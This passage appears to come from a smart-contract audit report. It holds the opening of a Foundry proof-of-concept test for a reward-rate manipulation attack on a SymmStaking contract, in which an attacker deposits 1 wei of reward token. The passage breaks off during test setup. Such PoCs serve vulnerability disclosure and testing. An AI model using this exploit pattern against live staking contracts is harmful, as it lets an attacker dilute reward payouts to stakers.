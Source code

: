 ### PoC


NOTE add the following two view functions to `SymmStaking` for easy viewing of important values. PoC assumes you have added these to view staking state.

```solidity
    // Add to the SymmStaking contract for testing
    function getRewardRate(address token) external view returns (uint256) {
        return rewardState[token].rate;
    }

    function getRewardPeriodFinish(address token) external view returns (uint256) {
        return rewardState[token].periodFinish;
    }
```


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "forge-std/Test.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {SymmStaking} from "../token/contracts/staking/SymmStaking.sol";

contract MockERC20 is ERC20 {
    constructor(string memory name, string memory symbol) ERC20(name, symbol) {
        _mint(msg.sender, 1000000 * 10**18); // Mint 1M tokens to deployer
    }

    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }
}

contract SymmStakingRewardManipulationTest is Test {
    SymmStaking public staking;
    MockERC20 public stakingToken; // SYMM token
    MockERC20 public rewardToken;  // Reward token (e.g., USDC)
    
    address public admin = address(0x1);
    address public alice = address(0x10);
    address public bob = address(0x20);
    address public charlie = address(0x30);
    address public attacker = address(0x99);
    
    uint256 private constant INITIAL_STAKE_AMOUNT = 100_000 * 10**18; // 100k SYMM
    uint256 private constant LEGITIMATE_REWARD_AMOUNT = 10_000 * 10**18; // 10k USDC
    uint256 private constant MINIMUM_ATTACK_AMOUNT = 1; // Just 1 wei of reward token

    function setUp() public {
        // Set up roles
        vm.startPrank(admin);
        
        // Deploy tokens
        stakingToken = new MockERC20("SYMM Token", "SYMM");
        rewardToken = new MockERC20("USDC Token", "USDC");
        
        // Deploy staking contract
        staking = new SymmStaking();
        staking.initialize(admin, address(stakingToken));
        
        // Configure reward token
        staking.configureRewardToken(address(rewardToken), true);
```
